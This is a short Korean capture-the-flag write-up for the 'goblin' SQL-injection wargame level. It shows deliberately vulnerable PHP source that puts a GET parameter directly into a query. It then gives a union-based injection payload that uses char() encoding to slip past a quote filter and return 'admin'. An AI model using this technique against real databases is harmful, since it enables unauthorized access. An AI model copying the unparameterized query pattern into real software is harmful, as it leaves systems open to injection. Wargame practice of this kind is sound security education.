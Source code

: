 # goblin

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`preg_match`를 보니 `quote`는 사용을 못할 것 같다.
`id`가 `admin`이면 클리어가 되고, `id`는 우리가 직접 주입을 못한다.
아마도 `union based sqli`인 것 같다.

> ?no=13 union select char(97,100,109,105,110)
`no`에 `where`이 통과되지않도록 값을 넣어주고, `union`을 통해 `admin`의 `id`를 불러 오는 방식이다.

`char(97, 100, 109, 105, 110)`은 `admin`을 뜻한다.

```sql
select id from prob_goblin where id='guest' and no=13 union select char(97,100,109,105,110)
```
이렇게 `admin`이 나와서 clear!
